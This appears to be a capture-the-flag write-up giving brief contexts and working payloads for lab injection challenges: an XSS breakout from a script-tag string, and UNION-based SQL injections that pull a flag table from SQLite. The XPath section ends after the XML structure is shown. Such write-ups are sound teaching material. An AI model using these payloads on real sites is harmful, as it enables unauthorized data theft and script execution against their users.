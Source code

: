 ### XSS 2

**Context**: Same context as XSS1, but the input is executed inside a script tag.

```html
<script>const x = '$INPUT'</script>
```

**Payload**: Escape from the `''` context and use a JavaScript comment to get rid of the quote.

```js
'+alert(flag)//
```


### SQL Injection 1

**Context**: The application uses SQLite3 to execute SQL queries, and the input is normalized using NFKC normalization. We are also given the structure of the database

```sql
-- Structure
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
```

```sql
SELECT * FROM users WHERE username = '$INPUT'
```

**Payload**: Extract the `flag` from the `flag` table.

:warning: Each table argument of 'UNION' must have the same number of columns you can use `NULL` keyword to create empty column. - [Reference: SQLite UNION](https://www.sqlitetutorial.net/sqlite-union/)

```sql
' union select flag , null, null from flag --
```

### SQL Injection 2

**Context**: Same database structure and normalization as in SQL 1, but the injection occurs in an number comparison.

```sql
SELECT * FROM users WHERE age <$INPUT
```

**Payload**: Same payload as before, without the quote to close the string.

```ps1
9 union select flag , null, null from flag --
```

### XPath Injection

**Context**: Extract the password of the admin user. The structure of the XML was also given.

```xml
<db>
  <users>
    <user>
      <name>admin</name>
      <password>FLAG</password>
    </user>
    <user>
      <name>guest</name>
      <password>123456</password>
    </user>
  </users>
</db>
```